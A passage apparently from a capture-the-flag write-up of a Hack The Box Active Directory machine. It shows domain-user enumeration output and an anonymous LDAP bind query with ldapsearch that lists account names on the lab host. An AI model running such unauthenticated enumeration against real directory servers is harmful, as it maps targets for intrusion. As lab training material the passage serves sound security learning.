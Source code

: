 ```bash
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[darkorithm] rid:[0x2581]
user:[abc] rid:[0x2582]
```

The command successfully enumerated domain users, revealing some standard and service accounts.

### LDAP Enumeration

Since LDAP ports (389/636) were open, I attempted domain enumeration using LDAP null binding (authentication without credentials). 

```bash
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName:

sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: FOREST$
sAMAccountName: EXCH01$
sAMAccountName: $331000-VK4ADACQNUCA
sAMAccountName: SM_2c8eef0a09b545acb
sAMAccountName: SM_ca8c2ed5bdab4dc9b
sAMAccountName: SM_75a538d3025e4db9a
sAMAccountName: SM_681f53d4942840e18
sAMAccountName: SM_1b41c9286325456bb
sAMAccountName: SM_9b69f1b9d2cc45549
sAMAccountName: SM_7c96b981967141ebb
sAMAccountName: SM_c75ee099d0a64c91b
sAMAccountName: SM_1ffab36a2f5f479cb
sAMAccountName: HealthMailboxc3d7722
sAMAccountName: HealthMailboxfc9daad
sAMAccountName: HealthMailboxc0a90c9
sAMAccountName: HealthMailbox670628e
sAMAccountName: HealthMailbox968e74d
sAMAccountName: HealthMailbox6ded678
sAMAccountName: HealthMailbox83d6781
sAMAccountName: HealthMailboxfd87238
sAMAccountName: HealthMailboxb01ac64
sAMAccountName: HealthMailbox7108a4e
sAMAccountName: HealthMailbox0659cc1
sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi
sAMAccountName: darkorithm
sAMAccountName: abc
```
